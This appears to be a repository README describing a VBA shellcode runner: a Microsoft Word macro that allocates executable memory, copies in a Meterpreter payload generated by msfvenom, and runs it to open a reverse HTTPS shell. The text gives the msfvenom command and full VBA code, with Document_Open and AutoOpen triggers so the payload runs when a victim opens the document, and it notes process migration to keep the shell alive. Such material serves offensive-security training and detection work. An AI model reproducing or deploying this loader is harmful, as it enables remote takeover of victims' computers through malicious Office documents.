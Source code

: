 # VBA-Shellcode-Runner:

Calling Win32 APIs from VBA:

Windows operating system APIs (or Win32 APIs) are located in dynamic link libraries and run as unmanaged code. We'll use the Declare1 keyword to link to these APIs in VBA, providing the name of the function, the DLL it resides in, the argument types, and return value types. We will use a Private Declare, meaning that this function will only be used in our local code.
The typical approach is to use three Win32 APIs from Kernel32.dll: VirtualAlloc, RtlMoveMemory, and CreateThread. For function prototype we can refer https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex


We will use VirtualAlloc to allocate unmanaged memory that is writable, readable, and executable. We'll then copy the shellcode into the newly allocated memory with RtlMoveMemory, and create a new execution thread in the process through CreateThread to execute the shellcode. 

Allocating memory through other Win32 APIs returns non-executable memory due to the memory protection called Data Execution Prevention (DEP)

In order to generate the shellcode, we need to know the target architecture. Obviously we are targeting a 64-bit Windows machine, but Microsoft Word 2016 installs as 32-bit by default, so we will generate 32-bit shellcode.

  msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication 
  
  (Since we will be executing our shellcode inside the Word application, we specify the EXITFUNC with a value of "thread" instead of the default value of "process" to avoid closing Microsoft Word when the shellcode exits.)


In summary, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use VirtualAlloc to create some space for our shellcode. Next, we use RtlMoveMemory to put our code in memory with the help of a For loop. Finally, we use CreateThread to execute our shellcode. When executed, our shellcode runner calls back to the Meterpreter listener and opens the reverse shell as expected, entirely in memory.

To work as expected, this requires a matching 32-bit multi/handler in Metasploit with the EXITFUNC set to "thread" and matching IP and port number.

the primary disadvantage is that when the victim closes Word, our shell will die. so we need to incorporate Process Injection/Migration techniques. Metasploit's AutoMigrate module solves this. 

Code: 

      Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
      
      Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
      
      Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
      
      Function MyMacro()
          Dim buf As Variant
          Dim addr As LongPtr
          Dim counter As Long
          Dim data As Long
          Dim res As Long
          
          buf = Array(msfvenom generated vba shell code)
      
          addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
          
          For counter = LBound(buf) To UBound(buf)
              data = buf(counter)
              res = RtlMoveMemory(addr + counter, data, 1)
          Next counter
          
          res = CreateThread(0, 0, addr, 0, 0, 0)
      End Function 
      
      Sub Document_Open()
          MyMacro
      End Sub
      
      Sub AutoOpen()
          MyMacro
      End Sub

